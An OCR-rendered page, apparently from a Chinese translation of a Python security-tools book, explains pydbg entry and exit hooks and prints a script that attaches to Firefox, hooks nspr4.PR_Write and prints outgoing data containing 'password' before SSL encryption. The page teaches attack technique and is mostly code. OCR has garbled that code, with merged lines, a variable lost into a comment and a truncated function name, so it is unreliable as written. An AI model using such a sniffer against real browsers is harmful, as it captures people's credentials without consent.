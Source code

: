```
def entry_hook( dbg, args ):
    # Hook code here
    return DBG_CONTINUE 
```

dbg 参数设置成有效的 pydbg 目标，args 接收一个列表，包含 hook 触发时接收到的参 数。

exit hook 回调函数有一点不同就是多了个 ret 参数，包含了函数的返回值(EAX 的值): def exit_hook( dbg, args, ret ):

```
# Hook code here
return DBG_CONTINUE 
```

接下用实例看看如何用 entry hook 嗅探加密前的数据。

```
#firefox_hook.py from pydbg import *
from pydbg.defines import * 
import utils
import sys
dbg = pydbg()
found_firefox = False
# Let's set a global pattern that we can make the hook
# search for
pattern = "password"
# This is our entry hook callback function
# the argument we are interested in is args[1] 
def ssl_sniff( dbg, args ):
    # Now we read out the memory pointed to by the second argument
    # it is stored as an ASCII string, so we'll loop on a read until
    # we reach a NULL byte buffer = ""
    offset = 0
    while 1:
        byte = dbg.read_process_memory( args[1] + offset, 1 ) 
        if byte != "\x00":
            buffer += byte offset += 1 continue
        else:
            break
    if pattern in buffer:
        print "Pre-Encrypted: %s" % buffer 
    return DBG_CONTINUE
# Quick and dirty process enumeration to find firefox.exe 
for (pid, name) in dbg.enumerate_processes():
    if name.lower() == "firefox.exe": 
        found_firefox = True
        hooks = utils.hook_container() dbg.attach(pid)
        print "[*] Attaching to firefox.exe with PID: %d" % pid
        # Resolve the function address
        hook_address = dbg.func_resolve_debuggee("nspr4.dll","PR_Wri 
        if hook_address:
            # Add the hook to the container. We aren't interested
            # in using an exit callback, so we set it to None. 
            hooks.add( dbg, hook_address, 2, ssl_sniff, None )
            print "[*] nspr4.PR_Write hooked at: 0x%08x" % hook_address 
            break
        else:
            print "[*] Error: Couldn't resolve hook address." 
            sys.exit(-1)
if found_firefox:
    print "[*] Hooks set, continuing process." 
    dbg.run()
else:
    print "[*] Error: Couldn't find the firefox.exe process." 
    sys.exit(-1) 
```